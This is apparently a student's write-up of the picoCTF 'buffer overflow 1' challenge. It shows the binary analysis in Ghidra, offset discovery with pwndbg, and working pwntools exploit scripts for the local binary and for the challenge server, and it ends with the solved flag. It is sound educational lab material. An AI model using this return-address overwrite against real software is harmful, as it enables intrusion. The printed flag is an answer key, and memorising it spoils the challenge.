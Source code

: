 # buffer overflow 1 solution
first, i make the file executable locally using 
``` chmod +x ./vuln```

i run ```file ./vuln``` to get that ```./vuln``` is a ```ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped```

i then run ```./vuln``` using ghidra and i find that it has a ```win()``` function which will print the flag for me once i overflow into it.
```
void win(void)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n")
    ;
                    // WARNING: Subroutine does not return
    exit(0);
  }
  fgets(local_50,0x40,local_10);
  printf(local_50);
  return;
}
```

then, i used pwndbg to find the offset:

1. ```gdb ./vuln```, i will enter pwndbg.
2. since ```./vuln``` is a 32 bit executable, i run ```cyclic 100 -n 4``` in pwndbg to get a really long string.

-> i run ```cyclic -n 4``` because on 32-bit systems, the stack is overwritten in 4-byte chunks, and i want cyclic_find() to search correctly.

3. the function gives me this:

![cyclic.png](images/cyclic.png)

4. i then run ```./vuln``` by entering `r` into pwndbg then copying and pasting the de-brujin sequence that i generated. 
5. the program will crash and show me the address, which in this case is `Okay, time to return... Fingers Crossed... Jumping to 0x6161616c`, so `0x6161616c` is where the program crashed.

![crash.png](images/crash.png)
![crash2.png](images/crash2.png)

6. i will then use `cyclic -l 0x6161616c` to find the offset, in this case it is 44.

![offset.png](images/offset.png)

7. now that i've found the offset, all i need to do is to obtain the address of the `win()` function so that i can overflow into it.
8. i created my own test flag using `echo picoCTF{test_flag} > flag.txt`
9. i then used `objdump -d vuln | grep win` to get the location of where the `win()` function starts, which is `0x080491f6`. (`objdump -d <file> | grep something` displays information about one or more object files and grep filters for lines matching whatever you put after grep)

![find_win.png](images/find_win.png)

10. now that i have the location of the `win()` function and the offset, i can begin crafting my payload;

```
from pwn import *

# Address of the win function
win_addr = p32(0x080491f6)

# Create the payload: 44 bytes of padding followed by the address of win()
payload = b"A" * 44 + win_addr

# Start the process and send the payload
p = process("./vuln")
p.sendline(payload)
p.interactive()
```

11. i send it by running `python3 buffer_overflow1_local.py` and it pushes out my test flag, which means my payload worked!

![test_flag_success.png](images/test_flag_success.png)

12. all i need to do now is to change the python file to run on the address that picoCTF gave me, and i'll get the flag!

```
from pwn import *

# Replace these with actual challenge values
HOST = "saturn.picoctf.net"  # actual host
PORT = 61422                 # actual port

# Address of the win function — verify if remote binary is different!
win_addr = p32(0x080491f6)

# Create the payload: 44 bytes of padding followed by the address of win()
payload = b"A" * 44 + win_addr

# Connect to the remote challenge
p = remote(HOST, PORT)

# Optional: wait for specific prompt before sending
p.recvuntil(b"Please enter your string:")

# Send the payload
p.sendline(payload)
```

and voila, you get the flag!

![real_flag_success.png](images/real_flag_success.png)

flag: ```picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}```
